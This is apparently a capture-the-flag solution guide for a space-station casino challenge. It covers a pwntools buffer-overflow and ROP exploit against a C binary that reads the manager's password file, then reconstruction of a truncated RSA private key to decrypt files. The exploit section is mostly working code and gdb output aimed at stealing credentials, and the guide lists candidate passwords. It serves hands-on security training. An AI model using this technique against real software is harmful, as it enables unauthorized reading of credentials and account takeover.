



# Operation Blackjack

_Solution Guide_

## Overview

There are three tasks for this challenge: find the secret casino, exploit one of the binaries in the casino, and recover the RSA key from the casino manager to decrypt the communication files. This solution guide walks you through the solution, question by question.

## Question 1

_What is the location of the files running the secret casino? Please provide the full path to the directory hosting the casino._

There are clues on the space station to find the casino. Once using ssh to access the space station, we start in the /home/janitor directory. If we enter the /home directory, find user directories, and a suspicious text file. If we list files with `ls -la` we will see a secret folder called `.casino` which is our target. Once entering the .casino folder, we will find a few casino games, a file called cash, and a file called welcome.txt. for the first question, the answer will be /home/.casino

## Question 2

_What is the token found in the Casino Manager's home folder?_

If we inspect each casino game, we will find that one of them is not like the others. Three are python programs (dice, slots, and video poker), while another is an executable binary (nines). If we run `checksec nines` we will see that there is no stack canary and no PIE. You will see that there is c code from the nines game that we can download. 

There are a few lines that are important for us to notice. First, there is an interesting file path that is included in the text:
`const char* PASS = "/home/gyre/managerpass.txt";`
This would seem to be the location of the manager’s password.

The next is a function called get_file, which takes in a pointer to a string, and reads data from that file, prints it, then returns the value as a int. There is a comment there saying that if the user does not have a file called “cash” in his/her current directory, then it will cause an error.

The last line to note is the following:
`fgets(play_again, 100, stdin); // Is this a big enough buffer for fgets? I should have made this game in python :(`
This takes in much larger input that the buffer of play_again allows, so we have an easy buffer overflow!

With this information, we can leverage the vulnerabilities in this code  to develop an exploit to read the manager’s password. What we need to do is overflow the buffer to overwrite the RIP, and redirect the execution to the get_file function, with the location of the manager password file as a parameter. We would suggest compiling the binary on the local kali machine for testing, then copy it over to the space station: `gcc -fno-stack-protector -no-pie -o nines nines.c` 

After compiling the binary, be sure to create a cash file in your current directory, and to create a file called "/home/gyre/managerpass.txt" on your local machine. You will need sudo to do that, then use chown on that test password file so that the local nines binary can read it.

### Overwriting the RIP

Overwriting the RIP can be done in many ways. The easiest is trial and error. We can use gdb to see the registers when we run the program `gdb nines`. When we run the program with `r` we can play the game (enter 1 for each prompt), until we get to out vulnerable prompt and enter a large buffer like “aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa”
The program should segmentation fault, and gdb will tell you at what location.
 
`Program received signal SIGSEGV, Segmentation fault.`
`0x00007ffff7000a61 in ?? ()`

We will want that segfault message to say all our target letters.
To speed up this process we can use the cyclic tool, and generate a sequence of letters `cyclic 30`.  Through trial and error, if we enter aaaabaaacaaadaaaeaaafaaagabbbbb we get:
 
`Program received signal SIGSEGV, Segmentation fault.`
`0x00000a6262626262 in ?? ()`

Those hex 62 are “b” which can can replace with any address we want to jump to.
`Program received signal SIGSEGV, Segmentation fault.

### Building the ROP chain

From here, we can begin to develop our exploit. Create a python file, such as exploit_nines.py, and at the top place the following code:

```
from pwn import *

context.clear(arch='amd64') \
bin = <ENTER PATH TO NINES BINARY HERE> 
elf = ELF(bin) 
pty = process.PTY  
```
This code says that we want to use pwntools, that our target program is x64, and specifies what our target program is. We also define pty, which helps with input and output. Next we need to find the location of the manager password string in the binary,

`str_addr = next(elf.search(b"/home/gyre/managerpass.txt"))`

Now we need to load that string into rdi (which is passed as the first argument in x64), then call get_file. To do this, we need to find a ROP gadget in the binary, which is code which pops the stack into rdi, then returns to the address on the stack. Luckily, pwntools can build this for us:

`rop = ROP(bin)`  
`rop.call("get_file", [str_addr])`  

To recap, what we need to do is overflow the buffer to control the rip, then point the rip our rop chain (which is code that will load the rdi with our password file string, then return to get_file):

```
buffer = b"aaaabaaacaaadaaaeaaafaaaga"
rip = rop.chain()
payload = buffer + rip
```

We then need to send this payload to the nines binary. We start the program, read until it promts for a bet, send a 1, then read unitl it prompts for a slap or sit, send another one, then read until we are prompted to play again, at which we will deliver our payload:

```
proc = process(bin, stdin=pty, stdout=pty)
print(proc.sendlineafter(b"Bet: ", b"1")) 
print(proc.sendlineafter(b"?: ", b"1"))
print(proc.sendlineafter(b"again: ", payload)) 
```
We can just use the interactive feature to read the contents:

```
proc.interactive()
```

If our local enviroment has been set up correctly, we can see that the exploit reads the test password file! Now, all we have to do is scp the exploit to the janitor folder, create a file called "cash" in the janitor folder, and update the the following line in our exploit code:
```
bin = "/home/.casino/nines"
```
When you run this, you should see the manager's password. It will be one of the following: iluvatlanticcity, livinlasvegas, jadoremanaco, macaumoney, or biloxiblackjack.

From here, you can `su` into the gyre account, enter his folder, and read the first flag. It will be a random sequence of hex values.

## Question 3

_After decrypting the communications, enter the password to the financial logs that the aliens provided._

After gaining access to Gyre's account, an RSA public and private key can be found, but the private key is missing a large number of bytes as seen below. 



The goal here is to recover the full private key and use it to decrypt the communications found on the challenge server. The easiest way to do this is to generate a dummy RSA private key of the same length and compare the two files. _It's very important to make sure the files are the same length. If the RSA keys are not the same length, they might have a slightly different format and it may be more difficult to recover the key._ These private keys are in PEM format, which is base64 encoded DER with a header and footer. DER format follows the type-length-data format, meaning that each value in the file contains one byte for the type of data encoded, the length of the data, and the data itself. 

For instance, the sequence `02 41` can be decoded as the following:

- `02` is the data type, representing an integer
- `41` is the length value. Since the most significant bit here is `0`, this is in "short form". In short form, the remaining bytes represent the length of the value. In this case, 65 bytes. More info on how to read the length can be found [here](https://en.wikipedia.org/wiki/X.690#Length_octets) 
- The following 65 bytes after this header represent the data object.

The RSAPrivateKey ASN.1 specification is as follows:

```
RSAPrivateKey ::= SEQUENCE {
   version           Version,
   modulus           INTEGER,  -- n
   publicExponent    INTEGER,  -- e
   privateExponent   INTEGER,  -- d
   prime1            INTEGER,  -- p
   prime2            INTEGER,  -- q
   exponent1         INTEGER,  -- d mod (p-1)
   exponent2         INTEGER,  -- d mod (q-1)
   coefficient       INTEGER,  -- (inverse of q) mod p
   otherPrimeInfos   OtherPrimeInfos OPTIONAL
}
```

Starting at the very beginning of the file, the `version` header and data object appear, which is followed by the `modulus` and so on. By comparing a dummy RSA key, making note of the header locations in respect to the file, you can find that the partial key provided is truncated right at the start (or 1-2 bytes before) the `prime2` data block.



In the above picture, the data block headers are highlighted. In order, they represent:
- The entire RSAPrivateKey object of type SEQUENCE.
- The version, specified as an integer
- The modulus
- The public exponent
- The private exponent
- Prime p
- Prime q
- Exponent 1
- Exponent 2
- Coefficient

By carefully observing the partial key, we can see that there are 4 section headers remaining, indicating we have prime2, exponent1, exponent2, and the coefficient.



Since we have a full public key as well, we can use the info remaining in the private key, as well as the info in the public key, to recover the full key 

> **Note:** Even if we weren't provided prime2, this could _still_ be recovered. The exponents and coefficient objects are used to speed up processing with RSA, but using some tricky math and a very small amount of brute forcing (less than 10 seconds worth), the entire key can still be recovered. Take a look at this [blog post](https://blog.cryptohack.org/twitter-secrets) for info on that.

Since the modulus (`N`) is equal to `p*q`, we can simply divide `N` by `q` to recover `p`. Using `p`, `q`, and `e` (from the public key file), we can recover the full key. 

> **Note for python users:** Python does some strange things when dividing large numbers. Even though python supports arbitrarily large integers, it cannot properly divide large integers using standard division. In other words, `N/q` != `p`. To do this, use the integer division operator: `p = N//q`.

The full solver script for this part can be found in `solver.py`.

After recovering the key, you can use openssl to decrypt each block:

```
openssl rsautl -decrypt -inkey exp_key.pem -in block1.enc > block1.txt
```

The flag can be found in block4.
